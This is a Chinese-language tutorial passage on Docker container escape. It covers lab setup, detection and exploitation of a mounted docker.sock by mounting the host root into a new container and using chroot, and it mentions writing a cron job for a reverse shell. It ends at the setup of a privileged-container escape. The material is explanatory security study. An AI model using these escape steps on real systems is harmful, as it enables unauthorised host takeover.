 ## 挂载Docker Socket逃逸

Docker Socket 用来与守护进程通信即查询信息或者下发命令。

### 环境

+ 创建一个容器并挂载/var/run/docker/sock

  ```
  docker run -itd --name with_docker_sock -v /var/run/docker.sock:/var/run/docker.sock ubuntu
  ```

  在容器内安装 Docker 命令行客户端

  ```shell
  docker exec -it with_docker_sock /bin/bash
  apt-get update
  apt-get install curl
  curl -fsSL https://get.docker.com/ | sh
  ```

### 检测

```shell
ls /var/run/ | grep -qi docker.sock && echo "Docker Socket is mounted." || echo "Docker Socket is not mounted."
```

### 利用

在容器内部创建一个新的容器，并将宿主机目录挂载到新的容器内部

```
docker run -it -v /:/host ubuntu /bin/bash
```

在新的容器内执行 chroot，将根目录切换到挂载到宿主机的根目录，其实不挂载也行

```
chroot /host
```

> Docker Socket主要作用是在Docker守护进程（Docker Daemon）与Docker客户端之间进行通信。
>
> 当容器挂载了Socket，能够执行docker的一些命令，例如创建新的容器，这个操作是在docker服务器上进行的
>
> 因此，利用了这一点将宿主机的全部目录挂载进来，相当于有了宿主机的文件操作权，可以写计划任务来反弹shell了
>
> 这个逃逸需要root权限

## 特权容器逃逸

### 环境

```
docker run --rm -it --privileged ubuntu  bash 
```
